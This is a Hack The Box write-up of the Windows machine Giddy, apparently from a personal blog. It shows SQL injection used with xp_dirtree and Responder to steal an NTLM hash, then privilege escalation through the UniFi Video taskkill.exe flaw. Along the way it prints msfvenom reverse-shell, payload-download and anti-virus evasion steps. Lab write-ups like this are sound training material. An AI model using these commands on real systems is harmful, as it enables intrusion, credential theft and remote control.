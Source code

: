 ```yaml
---
layout: post
title: Hack The Box - Giddy
categories: hack-the-box
tags: [Windows, Web, SQLI, RCE, Active Directory]
image: /hackthebox/giddy/0.png
---
```


<hr>
### Quick Summary
#### Hey guys today Giddy retired and this is my write-up. Giddy was a nice windows box , This box had a nice sqli vulnerability which we will use to steal ntlm hashes and login , Then the privilege escalation was a Local Privilege Escalation vulnerability in a software called Ubiquiti UniFi Video which also was a cool vulnerability , I had fun doing this box as it was a challenging one. It's a windows box and its ip is 10.10.10.104 , I added it to `/etc/hosts` as `giddy.htb`. Let's jump right in.
![](/images/hackthebox/giddy/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services : 
`nmap -sV -sT -sC giddy.htb`
![](/images/hackthebox/giddy/1.png)
#### nmap tells us that port 80 and 443 are open and running http , port 3389 is also open and it says "Microsoft Terminal Services", Let's check http
<br>
<hr>
### HTTP Enumeration
#### On http (port 80) there's only this picture :
![](/images/hackthebox/giddy/2.png)
#### Also the same picture on https (port 443)
![](/images/hackthebox/giddy/3.png)
#### Let's run gobuster with `directory-list-2.3-medium.txt` and see what we will get
`gobuster -u http://giddy.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -to 250s`
#### Results :
```
=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)                                                                                       
=====================================================                                                                                       
[+] Mode         : dir                                                                                                                      
[+] Url/Domain   : http://giddy.htb/                                                                                                        
[+] Threads      : 100                                                                                                                      
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                             
[+] Status codes : 200,204,301,302,307,403                                                                                                  
[+] Timeout      : 4m10s                                                                                                                    
=====================================================                                                                                       
2019/02/15 21:36:09 Starting gobuster                                                                                                       
=====================================================
/remote (Status: 302)
/mvc (Status: 301)
```
#### We got 2 sub directories `/remote` and `/mvc`
#### Let's take a look at `/remote` :
![](/images/hackthebox/giddy/4.png)
#### It redirects us to this page titled as `Windows PowerShell Web Access` , we don't have any credentials so we can ignore this for now and check `/mvc`
![](/images/hackthebox/giddy/5.png)
#### And we get this `ASP.NET` application
<br>
<hr>
### SQLI and getting User
#### After some regular enumeration we will find that when we click on a product name we get something like this :
![](/images/hackthebox/giddy/6.png)
#### The url has a parameter called `ProductSubCategoryId` , and if we try a single quote `'` :
![](/images/hackthebox/giddy/7.png)
#### We get an error saying "Unclosed quotation mark after the character string" so this parameter is sql injectable , let's try something like `1; UPDATE Product SET Name= ''`
![](/images/hackthebox/giddy/8.png)
#### And we see that it dumped the products, we can run responder and use `xpdirtree` to make it try to connect to us , you can read about `xpdirtree` [here](http://www.patrickkeisler.com/2012/11/how-to-use-xpdirtree-to-list-all-files.html)
#### To do this let's run responder first `responder -I tun0`
#### Then let's use `xpdirtree` : `1; EXEC MASTER.sys.xp_dirtree '\\10.10.xx.xx\fakeshare'`
![](/images/hackthebox/giddy/9.png)
#### What is this doing is simply running a fake smb server with responder that steals ntlm hashes , then by using `xpdirtree` we make the server try to connect to our fake smb server. Let's check responder now :
![](/images/hackthebox/giddy/10.png)
#### We captured ntlm hash for a user called `Stacy` , Let's crack the hash with john
![](/images/hackthebox/giddy/11.png)
#### And the password is `xNnWo6272k7x` , let's use the PowerShell Web Access
![](/images/hackthebox/giddy/12.png)
#### We ge this web interface for powershell :
![](/images/hackthebox/giddy/13.png)
#### We can get the user flag now :
![](/images/hackthebox/giddy/14.png)
#### And we owned user !
<hr>
### unifivideo local privilege escalation
#### If we return to `Documents` again we will find a file called `unifivideo`
![](/images/hackthebox/giddy/15.png)
<br>
> UniFi Video is a powerful and flexible, integrated IP video management
surveillance system designed to work with Ubiquiti’s UniFi Video Camera product
line. UniFi Video has an intuitive, configurable, and feature‑packed user
interface with advanced features such as motion detection, auto‑discovery,
user-level security, storage management, reporting, and mobile device support.
<br>

#### A quick google search and we will find that an old version of unifivideo had a local privilege escalation vulnerability , check it [here](https://www.exploit-db.com/exploits/43390)
#### What's happening is , Upon the start of the service "Ubiquiti UniFi Video" it tries to execute a file called `taskkill.exe` in `C:\ProgramData\unifi-video\` but that file doesn't exist by default , if we have write permissions to that directory we can place our payload there as `taskkill.exe` then restart the service. And because the service runs with privileged permissions , it will be excuted as administrator.
#### Let's first create a payload with msfvenom :
`msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.xx.xx LPORT=1337 -f exe > taskkill.exe`
![](/images/hackthebox/giddy/16.png)
#### We will set up the handler on metasploit :
`use multi/handler`
<br>
<br>
`set payload windows/meterpreter_reverse_tcp`
<br>
<br>
`set LHOST 10.10.xx.xx`
<br>
<br>
`set LPORT 1337`
#### Then we will run a simple http server with python to host the payload
`python -m SimpleHTTPServer 80`
#### After that we will download the file , since we are on powershell we can do this :
`Invoke-WebRequest -o taskkill.exe http://10.10.xx.xx/taskkill.exe`
#### Then we will stop the service :
`Stop-Service "Ubiquiti UniFi Video"`
![](/images/hackthebox/giddy/17.png)
#### Start it again :
`Start-Service "Ubiquiti UniFi Video"`
![](/images/hackthebox/giddy/18.png)
#### Let's check our listener
![](/images/hackthebox/giddy/19.png)
#### We didn't get a meterpreter session !
<br>
<hr>
### Evading anti-virus and getting root
#### We didn't get a meterpreter session because there's some kind of anti-virus blocking our payload , so what i'm going to do is to use a framework called `phantom evasion` , you can get it from [github](https://github.com/oddcod3/Phantom-Evasion)
![](/images/hackthebox/giddy/20.png)
#### We will use [1] windows modules , then [1] shellcode injection , [4] windows shellcode injection heapalloc , after that it will ask for the payload :
![](/images/hackthebox/giddy/21.png)
#### We will choose Msfvenom 
#### And for encoding we will choose [4] x86/xor_dynamic + Triple Multibyte-key xor:
![](/images/hackthebox/giddy/22.png)
#### It will ask for adding multi processes behaviour , stripping and signing the executable , we will say no to all of them , then finally we will have our payload.
#### We will repeat what we did with the other payload again , and let's check our listener : 
![](/images/hackthebox/giddy/23.png)
#### We got a meterpreter session and owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Ypuffy](/hack-the-box/ypuffy/)
#### Next Hack The Box write-up : [Hack The Box - Zipper](/hack-the-box/zipper/)
<hr>
